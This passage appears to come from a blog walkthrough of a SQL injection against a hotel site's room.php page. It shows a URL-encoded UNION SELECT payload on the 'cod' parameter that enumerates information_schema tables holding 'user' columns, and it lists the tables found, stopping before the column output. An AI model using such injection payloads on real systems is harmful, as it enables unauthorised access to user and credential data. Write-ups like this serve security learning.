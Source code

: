 This is all good info, but it didn&#8217;t get me what I wanted, which was the &#8216;user&#8217; info. The query for extracting the tables doesn&#8217;t show us any more tables besides &#8216;hotel&#8217;. I knew there had to be more, so I tried another table extraction.

`room.php?cod=99%2527 UNION SELECT ALL 1,table_name,3,4,table_name,6,7 FROM information_schema.columns where column_name like 'user' limit 0, 1`

<img class="alignnone size-full wp-image-154" src="/assets/img/2019/08/js_sqli_table2.png" /> 

Now that was getting me other tables, and ones with &#8216;user&#8217; fields! Incrementing the LIMIT operator resulted in quite a lot of tables.

> #### Tables
> 
> PROCESSLIST  
> USER_STATISTICS  
> columns_priv  
> db  
> procs_priv  
> proxies_priv  
> roles_mapping  
> tables_priv  
> user  
> accounts  
> events\_stages\_summary\_by\_account\_by\_event_name  
> events\_stages\_summary\_by\_user\_by\_event_name  
> events\_statements\_summary\_by\_account\_by\_event_name  
> events\_statements\_summary\_by\_user\_by\_event_name  
> events\_waits\_summary\_by\_account\_by\_event_name  
> events\_waits\_summary\_by\_user\_by\_event_name  
> setup_actors  
> users

Two tables stood out, &#8216;user&#8217; and &#8216;users&#8217;. It was time to do a little more investigating by getting the columns of each of these tables using similar statements as before. The resulting table structures are:
